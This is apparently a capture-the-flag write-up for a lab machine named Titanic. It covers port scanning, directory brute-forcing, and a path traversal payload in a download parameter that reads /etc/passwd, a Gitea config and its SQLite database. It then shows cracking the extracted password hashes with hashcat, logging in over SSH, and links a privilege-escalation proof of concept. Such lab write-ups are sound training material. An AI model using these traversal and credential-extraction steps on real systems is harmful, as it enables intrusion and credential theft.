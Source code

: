 # 🚢 Titanic

## 📝 Overview

The box involves **path traversal**, **SQLite database extraction**, **hash cracking**, and a **privilege escalation via CVE-2024-41817**.

## 🔍 Enumeration

Nmap:
```sh
nmap -T3 10.10.11.55
nmap -Pn -T3 10.10.11.55
nmap -Pn -sS -p- -T4 10.10.11.55
nmap -sC -sV -p 22,80 10.10.11.55
```
Add the host to /etc/hosts:
```sh
echo "10.10.11.55 titanic.htb" | sudo tee -a /etc/hosts
```
Directory Bruteforce:
```sh
gobuster dir -u http://titanic.htb -w /usr/share/wordlists/dirb/common.txt -x php,txt,html
```

## 🕵️ Discovery
Path Traversal, tested LFI via the ticket parameter:
```sh
http://titanic.htb/download?ticket=../../../../etc/passwd
http://titanic.htb/download?ticket=../../../../home/developer/gitea/data/gitea/conf/app.ini
```
Found a new vhost: dev.titanic.htb:
```sh
http://titanic.htb/download?ticket=../../../../etc/hosts => dev.titanic.htb
```
Extracted the Gitea SQLite database:
```sh
http://titanic.htb/download?ticket=../../../../home/developer/gitea/data/gitea/gitea.db
```

Meanwhile, on the dev.titanic.htb virtual host, we find a Gitea instance hosting two repositories: docker-config and flask-app

## 💾 Database Analysis
Open the database:
```sh
sqlite3 gitea.db:
.tables
SELECT id, name, lower_name, email, passwd FROM user;
SELECT name, passwd, salt FROM user;
```
Convert salts & hashes for base64:
```sh
echo -n "HASH/SALT" | xxd -r -p | base64
```
Crack using hashcat:
```sh
hashcat -m 10900 hashes.txt /usr/share/wordlists/rockyou.txt --user
```
Found credentials:
```
developer : 25282528
```

<!--
john --list=formats | tr ',' '\n' | grep PBKDF2 | grep SHA256
john --list=format-details --format=PBKDF2-HMAC-SHA256
-->

## 🔑 Access via SSH
```sh
ssh developer@titanic.htb
```

## ⚡ Privilege Escalation
While enumerating the system, found a vulnerable component exploitable via CVE-2024-41817:  
[CVE-2024-41817 PoC](https://github.com/Dxsk/CVE-2024-41817-poc)